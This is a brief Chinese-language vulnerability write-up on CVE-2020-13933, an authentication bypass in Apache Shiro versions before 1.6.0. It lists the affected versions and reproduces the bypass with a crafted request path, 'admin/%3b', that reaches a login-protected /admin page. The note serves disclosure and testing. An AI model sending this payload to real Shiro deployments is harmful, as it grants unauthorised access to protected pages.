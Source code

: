 # Apache Shiro 1.6.0 身份认证绕过漏洞 CVE-2020-13933

# Apache Shiro  1.6.0 身份认证绕过漏洞 CVE-2020-13933

## 漏洞描述

2020年8月18日，Apache Shiro官方发布安全通告 Apache Shiro身份验证绕过漏洞（CVE-2020-13933），经过分析，攻击者可以通过构造特殊的HTTP请求实现身份验证绕过。

## 漏洞影响

```
Apache Shiro < 1.6.0
```

## 漏洞复现

正常访问 /admin，需要登录：

![image-20230724162154509](images/image-20230724162154509.png)

构造恶意请求绕过：

```
admin/%3b
```

![image-20230724162320484](images/image-20230724162320484.png)

